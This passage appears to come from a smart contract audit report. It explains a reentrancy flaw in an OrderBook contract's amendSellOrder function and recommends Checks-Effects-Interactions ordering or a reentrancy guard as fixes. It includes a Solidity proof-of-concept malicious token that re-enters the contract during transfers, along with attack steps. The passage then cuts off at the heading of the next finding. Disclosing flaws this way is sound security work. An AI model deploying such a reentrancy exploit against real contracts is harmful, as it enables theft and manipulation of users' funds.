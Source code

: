 Impact:

Malicious token contracts could re-enter during safeTransferFrom or safeTransfer
Attacker could manipulate order state before original amendments are applied
Could lead to inconsistent order state, double-spending of amendments, or fund manipulation
More complex than createSellOrder due to bidirectional token transfers


### Proof of Concept

```solidity 
// Malicious token that triggers reentrancy during transfers
contract MaliciousToken {
    OrderBook orderBook;
    uint256 targetOrderId;
    bool attacking;
    
    function transferFrom(address from, address to, uint256 amount) external returns (bool) {
        if (!attacking && to == address(orderBook)) {
            attacking = true;
            // Re-enter while original amendment is in progress
            orderBook.amendSellOrder(targetOrderId, 500, 2000, 172800);
        }
        return true;
    }
    
    function transfer(address to, uint256 amount) external returns (bool) {
        if (!attacking && to != address(orderBook)) {
            attacking = true;
            // Re-enter during token return to seller
            orderBook.amendSellOrder(targetOrderId, 1500, 3000, 259200);
        }
        return true;
    }
}

// Attack scenario:
// 1. Attacker creates order with malicious token
// 2. Calls amendSellOrder() to increase amount (triggers transferFrom)
// 3. During transferFrom, malicious contract re-enters amendSellOrder()
// 4. Order state manipulated before original amendment completes
// 5. Similar attack possible when decreasing amount (triggers transfer)
```
### Recommended Mitigation

Follow the Checks-Effects-Interactions pattern by moving all state updates before external calls

Alternatively, add a reentrancy guard.

## [H-3] CEI Pattern Violation in buyOrder() Enables Reentrancy and Fee Manipulation

### Description
